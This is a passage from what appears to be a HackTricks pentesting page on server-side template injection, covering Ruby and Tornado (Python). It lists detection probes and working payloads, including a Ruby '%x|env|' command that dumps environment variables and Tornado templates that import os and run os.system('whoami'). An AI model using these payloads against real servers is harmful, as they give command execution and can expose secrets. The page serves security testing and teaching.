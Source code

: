 
```
{ %x|env| }
```

**More information**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#python)

Python

Check out the following page to learn tricks about **arbitrary command execution bypassing sandboxes** in python:

[Bypass Python sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python)

Tornado (Python)

- `{{7*7}} = 49`
    
- `${7*7} = ${7*7}`
    
- `{{foobar}} = Error`
    
- `{{7*'7'}} = 7777777`
    



```
{% import foobar %} = Error
{% import os %}

{% import os %}






{{os.system('whoami')}}
{{os.system('whoami')}}
```

**More information**

- [https://ajinabraham.com/blog/server-side-template-injection-in-tornado](https://ajinabraham.com/blog/server-side-template-injection-in-tornado)
    

### 
